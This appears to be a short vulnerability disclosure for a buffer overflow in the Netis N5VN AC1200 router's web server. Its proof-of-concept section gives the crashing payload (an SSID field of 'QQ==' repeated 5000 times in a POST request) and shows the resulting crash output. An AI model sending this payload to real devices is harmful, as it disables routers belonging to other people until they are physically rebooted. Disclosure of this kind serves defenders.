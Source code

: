 ## Exploit Title: Netis N5VN AC1200 - Buffer Overflow DOS (Denial of Service)

- Date: 05/03/2024

- Exploit Author: Van Lam Nguyen

- Facebook: fb.com/vanlam1412

- Vendor Homepage: [Netis Systems](https://www.netis-systems.com/)

- Version: Netis N5VN AC1200 V1.0.1.1742

- Tested on: Windows

- CVE : N/A

## Overview

- There exist a buffer overflow vulnerability in Netis N5VN AC1200 router that can allow an attacker to crash the web server running on the router by sending a crafted request

- To bring back the http (webserver), a user must physically reboot the route.

## Proof of Concept (Use python)

- POST request to change ssid Wireless 2.4G ('ssid': 'QQ==' \* 5000)

- Successfully: ('Connection aborted.', ConnectionResetError(10054, 'An existing connection was forcibly closed by the remote host', None, 10054, None))

- nmap 192.168.1.254 -p 80 80/tcp closed http

[Watch the video demonstration here](https://youtu.be/WvplWEa3XhU?si=r1BJhyBbHiKtsukQ)

![](https://down-vn.img.susercontent.com/file/vn-11134207-7qukw-lhrie7lcjrgh2b)

